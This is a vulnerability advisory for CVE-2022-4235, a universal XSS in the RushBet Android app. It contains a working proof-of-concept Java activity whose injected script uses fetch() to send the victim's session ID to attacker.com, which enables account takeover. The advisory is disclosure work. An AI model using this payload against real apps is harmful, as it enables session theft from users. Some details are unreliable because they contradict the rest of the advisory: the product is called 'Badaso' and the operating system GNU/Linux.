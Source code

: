 ```yaml
---
slug: advisories/miller/
title: RushBet 2022.23.1-b490616d - Universal XSS
authors: Carlos Bello
writer: cbello
codename: miller
product: RushBet 2022.23.1-b490616d (UXSS)
date: 2022-11-30 10:00 COT
cveid: CVE-2022-4235
severity: 7.1
description: RushBet 2022.23.1-b490616d    -    Universal XSS (UXSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Rushbet, UXSS
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | RushBet 2022.23.1-b490616d - UXSS                                  |
| **Code name**         | [Miller](https://en.wikipedia.org/wiki/Mac_Miller)                 |
| **Product**           | Badaso                                                             |
| **Affected versions** | Version 2022.23.1-b490616d                                         |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-30                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Universal XSS                                                                                                               |
| **Rule**              | [000. Universal XSS (UXSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/000)                                     |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 7.1                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-4235](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4235)                                               |

## Description

RushBet version 2022.23.1-b490616d allows a remote attacker to steal
customer accounts via a malicious application. This is possible because
the application exposes an activity and does not properly validate the
data it receives.

## Vulnerability

This vulnerability occurs because the application exposes an activity
and does not properly validate the data it receives.

## Exploitation

To exploit this vulnerability, the victim must have a malicious
application installed with activity like the following:

### MainActivity.java

```java
package com.example.badapp;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Handler;
import android.os.Bundle;
import android.net.Uri;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.rush.co.rb","com.sugarhouse.casino.MainActivity");
        intent.setData(Uri.parse("https://rushbet.co/"));
        startActivity(intent);

        new Handler().postDelayed(() -> {
            intent.setAction("Action.EvaluateScript");
            intent.putExtra("KeyScript","fetch('https://attacker.com/sessionID/'+JSON.parse(sessionStorage.getItem('session-COP')).value);");
            startActivity(intent);
        }, 30000);
    }
}
```

Thus, when the victim opens the malicious app, the exploit will
be executed, thus hacking his account.

## Evidence of exploitation

![POC-Account-Takeover-Rushbet](https://user-images.githubusercontent.com/51862990/204822560-80c8fce0-82ec-4a23-bec5-9da689ffea4f.mp4)

![PII-Account-Takeover-Rushbet](https://user-images.githubusercontent.com/51862990/204819582-d5f0b34a-0ec4-4413-ac40-bc06affd3ed1.png)

## Our security policy

We have reserved the CVE-2022-4235 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: RushBet 2022.23.1-b490616d

* Operating System: GNU/Linux

## Mitigation

An updated version of Badaso is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.rushbet.co>

## Timeline

<time-lapse
  discovered="2022-11-29"
  contacted="2022-11-30"
  replied="2022-11-30"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
